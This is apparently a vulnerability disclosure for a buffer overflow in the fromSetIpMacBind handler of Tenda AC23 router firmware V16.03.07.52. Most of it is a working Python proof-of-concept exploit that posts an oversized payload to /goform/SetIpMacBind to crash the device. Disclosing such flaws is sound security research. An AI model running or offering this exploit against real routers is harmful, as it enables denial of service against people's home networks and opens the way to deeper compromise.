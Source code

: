 A buffer overflow vulnerability in Tenda AC23 V16.03.07.52 occurs because the fromSetIpMacBind function does not check the length of input data, which can be exploited by an attacker to launch a denial of service attack.

<img width="415" height="415" alt="image" src="https://github.com/user-attachments/assets/17f45c7a-a81d-40c6-9179-cad8e55736c7" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetIpMacBind"

cookie = {"Cookie":"password=12345"}
data = {"list": payload, "bindnum": "1"}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
